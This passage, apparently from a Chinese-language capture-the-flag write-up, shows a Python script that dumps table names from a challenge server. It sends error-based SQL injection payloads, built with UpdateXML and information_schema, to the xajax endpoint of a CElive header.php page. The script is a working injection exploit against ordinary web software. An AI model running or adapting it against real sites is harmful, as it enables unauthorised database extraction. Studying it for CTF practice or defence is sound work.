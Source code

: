 后面试了几下还是没把表爆完。。。。。。。。

这时候问题又来了怎么爆完，手动还是自动，不说了，上大佬脚本！

pycharm python3版本运行

```
import requests
url = 'http://f323616315c34c59a57da0958bdba1c55e2573098c8a48ea.changame.ichunqiu.com/celive/live/header.php'
for i in range(1,999,31):
    postdata = {
    'xajax':'Postdata',
    'xajaxargs[0]':"<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),%s,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>" %str(i)
}
    r = requests.post(url,data=postdata)
    print(r.content[22:53]) 
```

![](img/837f8e406718c7d7a312b601a5e8b10a.png)
